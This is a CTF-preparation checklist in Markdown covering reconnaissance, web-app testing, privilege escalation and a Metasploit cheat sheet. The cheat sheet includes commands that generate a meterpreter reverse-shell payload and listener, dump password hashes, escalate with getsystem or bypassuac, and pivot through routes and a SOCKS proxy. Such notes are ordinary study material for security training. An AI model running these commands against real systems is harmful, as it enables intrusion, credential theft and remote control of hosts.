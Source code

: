 # Prep for CTFs

## Enumeration
### OSINT
- [ ] Social Media
- [ ] CrunchBase
- [ ] SAM - System for Award Managment

### Reccy
#### Subdomain Enumeration
- [ ] whois
- [ ] nslookup
- [ ] dnsdumpster
- [ ] Sublist3r
- [ ] crt.sh
- [ ] amass
<details>
<summary> amass install  </summary>
	<pre>$ sudo apt install snapd </pre>
	<pre>$ service snapd start </pre>
	<pre>$ snap install amass </pre>
	<pre>$ snap run amass </pre>
</details>

### In-Depth Scanning
- [ ] ping / pingsweep / masscan
- [ ] Verify UDP / TCP
- [ ] Verify FWs
- [ ] OS Type
<details>
<summary>Common nmap options </summary>
	<words> Firewalls 
	<pre>$ nmap -Pn </pre>
	</words>
</details>

## Web App
- [ ] Banner - http/s
<details>
<summary> Grabbing Banners </summary>
	<pre>$ nc <target> <port> </pre>
	<pre>$ <verb> / /http/1.0 </pre>
	<br>
	<words>When dealing with https</words>
	<pre>$ openssl s_client -connect target.top-level domain:port </pre>
	<pre>$  <verb> / http/1.0 </pre>
</details>

- [ ] httprint (signature based)
<details>
<summary> Using httprint </summary>
	<pre>$ httprint -P0 -h <target hosts> -s <signature file> -> automatic fingerprinting </pre>
</details>

- [ ] OPTIONS
- [ ] Check for uploads
- [ ] Proxy the site(s)  (BurpSuite, ZAP)
- [ ] Dirb, gobuster, feroxbuster, etc
- [ ] XSS (Expand)
- [ ] Types of XSS
- [ ] SQL (Expand)

## System Exploitation
### Vulnerability Scanning
- [ ] OpenVAS, Nessus, nmap, GFI Lan Guard

### System PrivEsc
- [ ] Linenum.sh
- [ ] Unshadow
- [ ] Hydra
- [ ] Windows Shares
- [ ] msfconsole
<details>
<summary> Common Metasploit Tools </summary>
	<words> Background Sessions </words>
	<pre>$ background (while in meterpreter) </pre>
	<pre>$ sessions -i </pre>
	<pre>$ sessions -i # (session #) </pre>
	<words> Common Commands </words>
	<pre>$ sysinfo, ipconfig, route, getuid </pre>
	<words> Common Utilities </words>
	<pre>$ download x, upload x, use post/windows/gather/hashdump </pre>
	<words> Automated PrivEsc </words>
	<pre>$ getsystem </pre>
	<words> OR </words>
	<pre>$ bypassuac </pre>
	<words> Common Meterpreter Payloads with msfvenom </words>
	<pre>$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f elf > payload.bin</pre>
	<words> Listener </words>
	<pre>$ use exploit/multi/handler </pre>
	<pre>$ set payload linux/x64/meterpreter/reverse_tcp </pre>
	<pre>$ set LHOST ip </pre>
	<pre>$ set LPORT port </pre>	
</details>

### Pivoting
- [ ] Route
- [ ] Metasploit autoroute
<details>
<summary> Metasploit Pivoting </summary>
	<words> Background Sessions </words>
	<pre>$ run autoroute -s ip/subnet </pre>
	<pre>$ run autoroute -p (shows routes)</pre>
	<words> Port Forwarding </words>
	<pre>$ portfwd add -l 9999 -p 20 -r ip </pre>
	<pre>$ portfwd list </pre>
	<br>
	<words> Using Metasploit as a SOCKS Proxy </words>
	<pre>$ use auxiliary/server/socks_proxy </pre>
	<pre>$ set VERSION 4a </pre>
	<pre>$ set SRVPORT 9050</pre>
	<pre>$ run -j </pre>
</details>

